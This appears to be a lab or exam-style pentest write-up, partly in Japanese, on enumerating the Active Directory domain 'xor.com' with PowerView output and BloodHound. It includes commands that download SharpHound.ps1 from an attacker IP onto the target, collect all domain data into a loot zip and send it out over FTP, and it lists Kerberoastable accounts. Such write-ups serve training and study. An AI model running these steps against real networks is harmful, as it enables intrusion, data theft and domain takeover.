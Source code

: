 ```
GroupDistinguishedName  : CN=Domain Admins,CN=Users,DC=xor,DC=com
MemberDomain            : xor.com
MemberName              : Administrator
MemberDistinguishedName : CN=Administrator,CN=Users,DC=xor,DC=com
MemberObjectClass       : user
MemberSID               : S-1-5-21-2293535422-227910474-3663383505-500
```

-> これは、Blodd Houndの「Find all Domains Admin」で表示されるアカウント達と等しい。

# Blood Hound
```
┌──(kali㉿kali)-[~]
└─$ sudo neo4j console
```

Browser is opened, so login to Blood Hound (User: neo4j, Pass: blood).

Open the new terminal and type:

```
┌──(kali㉿kali)-[~]
└─$ bloodhound
```

Donload SharpHound.ps1 to the target and Import it:

```
PS> Invoke-Webrequest -OutFile SharpHound.ps1 -Uri http://192.168.119.249/SharpHound.ps1
PS> Import-Module .\SharpHound.ps1
```

Making the .zip file:

```
Invoke-Bloodhound -CollectionMethod All -Domain xor.com -ZipFileName xorloot.zip
```

<- ここで少し固まるかもしれないが、`clear`とか打ってみて、最後の方に **You can upload this file directly...** 見たいのが出ればOK.

Send this .zip file to Kali (ftp bin put) -> Upload the .zip file to bloodhound page.

### Find all Domain Admins

![xor_hound_result](https://user-images.githubusercontent.com/85237728/146380100-678a01d2-9685-444d-b91f-b60a37232379.png)

### Find Shortest Paths to Domain Admins

![Find_Shortest_Paths_to_Domain_Admins](https://user-images.githubusercontent.com/85237728/146381092-0d4d671e-df33-41e3-bbbd-5ea230d372d8.png)


### Kerberoastable Users
- EXTMAILSERVICEX@XOR.COM
- EXCHANGESERVICE@XOR.COM
- SQLSERVER@XOR.COM
- KRBTGT@XOR.COM

